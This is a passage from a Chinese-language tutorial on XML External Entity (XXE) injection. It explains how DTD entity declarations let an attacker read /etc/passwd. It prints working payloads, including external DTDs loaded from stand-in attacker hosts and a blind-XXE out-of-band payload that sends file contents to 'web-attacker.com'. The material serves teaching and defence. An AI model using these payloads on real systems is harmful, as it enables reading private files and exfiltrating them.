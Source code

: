 <p>这个功能就是我们今天所讲的XXE的罪魁祸首，攻击者就是通过DTD外部实体声明来实现外部实体注入的。</p>

<h3 id="xml外部实体注入的产生原因">XML外部实体注入的产生原因</h3>

<p>如果Web应用存在外部实体注入问题，那么攻击者可以构建负载如下：</p>

<pre><code class="language-plain">&lt;!DOCTYPE a [
     &lt;!ENTITY b SYSTEM &quot;file:///etc/passwd&quot;&gt;
]&gt;
&lt;c&gt;&amp;b;&lt;/c&gt;
</code></pre>

<p>如果页面解析了其中c标签的内容，并将它输出在Web页面上，那么攻击者就可以读取到隐私文件passwd里的内容，这是非常危险的。</p>

<p>当然攻击者也可以利用DTD文档引入外部DTD文档，然后再引入外部实体声明，这样需要的XML内容为：</p>

<pre><code class="language-plain">&lt;?xml version=&quot;1.0&quot;?&gt;
&lt;!DOCTYPE a SYSTEM &quot;http://evial_ip.com/evil.dtd&quot;&gt;
&lt;c&gt;&amp;b;&lt;/c&gt;
</code></pre>

<p>其中外部的evil.dtd文件的内容为：</p>

<pre><code class="language-plain">&lt;!ENTITY b SYSTEM &quot;file:///etc/passwd&quot;&gt;
</code></pre>

<p>这样也是可以实现输出隐私文件passwd的功能。除此之外，攻击者还可以通过DTD外部实体声明引入外部实体声明，这有点类似于套娃了，不过它也是一种可行的方式，让我们一起来看看吧。</p>

<pre><code class="language-plain">&lt;?xml version=&quot;1.0&quot;?&gt;
&lt;!DOCTYPE a [
    &lt;!ENTITY % d SYSTEM &quot;http://example.com/example.dtd&quot;&gt;
    %d;
]&gt;
&lt;c&gt;&amp;b;&lt;/c&gt;
#example.dtd的内容为
&lt;!ENTITY b SYSTEM &quot;file:///etc/passwd&quot;&gt;
</code></pre>

<p>注意这里的%d，它是一个参数实体。Web应用在解析这个XML文件时，会首先将%d的值设置为example.dtd中的内容，然后调用%d，将example.dtd的运行结果赋予给b，并将它输出到标签<c>中。</p>

<p>以上内容就是XML外部实体注入的产生原因，下面我们一起来学习它有哪些危害吧。</p>

<h2 id="xml外部实体注入的危害">XML外部实体注入的危害</h2>

<p>XML外部实体注入会有很多危害，例如隐私文件获取以及发起SSRF攻击。让我们看一下它的攻击方式。</p>

<h3 id="xxe隐私文件获取">XXE隐私文件获取</h3>

<p>在之前学习XXE攻击方式的过程中，我们用XXE攻击来获取passwd文件。其实这就是XXE获取隐私文件的攻击方式。</p>

<p>在之前的示例中，我们默认了页面会将我们设置的XML内容进行输出，但实际上，<strong>Web应用往往不会输出我们注入的XML内容</strong>。这时候就是XXE盲注，我们需要借助一些技巧，来将文件的内容展示出来。</p>

<p>面对XXE盲注时，我们可以利用带外的方法来获取数据：</p>

<pre><code class="language-plain">&lt;!ENTITY % file SYSTEM &quot;file:///etc/passwd&quot;&gt;
&lt;!ENTITY % eval &quot;&lt;!ENTITY &amp;#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'&gt;&quot;&gt;
%eval;
%exfiltrate;
</code></pre>
